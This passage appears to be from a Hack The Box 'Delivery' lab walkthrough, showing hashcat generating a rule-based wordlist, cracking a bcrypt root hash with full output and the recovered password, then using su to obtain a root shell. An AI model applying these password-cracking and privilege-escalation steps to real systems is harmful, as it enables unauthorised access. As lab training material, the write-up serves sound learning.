 ```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Delivery]
└─$ hashcat -r /usr/share/hashcat/rules/best64.rule --stdout file > password.txt
```
{: .nolineno}

Now lets use this password and crack the root user hash password →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Delivery]
└─$ hashcat -m 3200 hashes.txt password.txt                                                 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
===========================================================================================================================================* Device #1: pthread-penryn-Intel(R) Core(TM) i5-8300H CPU @ 2.30GHz, 2914/5893 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: password.txt
* Passwords.: 77
* Bytes.....: 1177
* Keyspace..: 77
* Runtime...: 0 secs

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO : PleaseSubscribe!21

```
{: .nolineno}

Wow I got this password lets have a root access →

```bash
maildeliverer@Delivery:/$ su root
Password: 
root@Delivery:/# whoami
root
root@Delivery:/# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:/# cd /root
root@Delivery:~# ls -al
total 44
drwx------  5 root root 4096 Jul 14  2021 .
drwxr-xr-x 19 root root 4096 Jul 14  2021 ..
lrwxrwxrwx  1 root root    9 Dec 28  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Jul 14  2021 .cache
drwx------  3 root root 4096 Jul 14  2021 .gnupg
-rwxr-x---  1 root root  103 Dec 26  2020 mail.sh
```